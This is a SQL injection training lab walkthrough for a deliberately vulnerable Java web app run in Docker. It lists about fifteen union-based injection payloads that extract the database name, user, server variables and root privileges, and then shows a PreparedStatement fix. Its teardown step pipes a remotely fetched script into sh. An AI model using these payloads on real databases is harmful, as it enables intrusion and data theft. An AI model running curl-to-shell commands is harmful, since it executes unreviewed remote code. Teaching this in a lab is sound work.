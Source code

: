 Attack

Step 1: Open a new terminal and access directory
cd /root/sql-injectionCopy
Step 2: Build the project
mvn packageCopy
Step 3: Now start the app
docker-compose up -dCopy
| Wait for the app to get deployed

Note: If the startup is stuck at JAR scanning, bring down the server and spin up a new one

Step 4: In the browser, access http://<server-ip>:8888/SQLInjection/insecure
Substitute your server-ip here for the placeholder <server-ip>

Note: To fetch server ip type in serverip in a new terminal

Step 5: Create some dummy users



a' UNION ALL SELECT null,DATABASE(),null,null'Copy
You will see the database name under the header First Name

Now try other attacks (Each line is one payload)

a' UNION ALL SELECT null,system_user(),null,null'
a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plugin,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,null,null'
a' UNION ALL SELECT null,@@GLOBAL.secure_file_priv,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,@@GLOBAL.bind_address,CURRENT_USER()'
a' or '1=1
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x717a626a71),NULL-- YgfE
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,(CASE WHEN ((SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)=0x59) THEN 1 ELSE 0 END),0x717a626a71),NULL-- SSaoCopy
Defend
Step 1: On the browser, access http://<server-ip>:8888/SQLInjection/secure
Substitute your server-ip here for the placeholder <server-ip>

Step 2: In the search bar search for any user you have created based on first name

Step 3: Now test for SQL Injection payload

' or '1=1Copy
This should not return any value

Here the fix is a PreparedStatement query from line numbers 87 to 90 in the file /root/sql-injection/src/main/java/we45/training/labs/Secure.java

Teardown
Step 1: Change to directory
cd /root/sql-injectionCopy
Step 2: Stop the app
curl -sSL https://raw.githubusercontent.com/we45/xml-files/master/clean-docker.sh | shCopy

